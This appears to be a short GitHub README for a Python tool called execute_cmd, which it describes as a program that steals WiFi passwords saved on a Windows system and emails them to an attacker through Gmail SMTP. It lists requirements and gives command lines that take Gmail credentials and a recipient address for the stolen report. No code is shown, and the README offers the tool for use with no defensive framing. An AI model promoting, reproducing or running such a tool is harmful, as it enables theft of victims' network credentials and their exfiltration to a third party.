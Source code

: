 # execute_cmd
Simple program to steal and email WiFi passwords saved on a Windows system to an attacker.

It uses Gmail as a default SMTP Server, therefore, it requires you to have a gmail account.

Requirements:

[+]  Python 2

[+]  Scapy 2.2 and above (pip install scapy)

Usage:

python execute_cmd.py -u [Gmail username] -p [Gmail password] -e [Email address to receive report]

python3 execute_cmd.py -u [Gmail username] -p [Gmail password] -e [Email address to receive report]
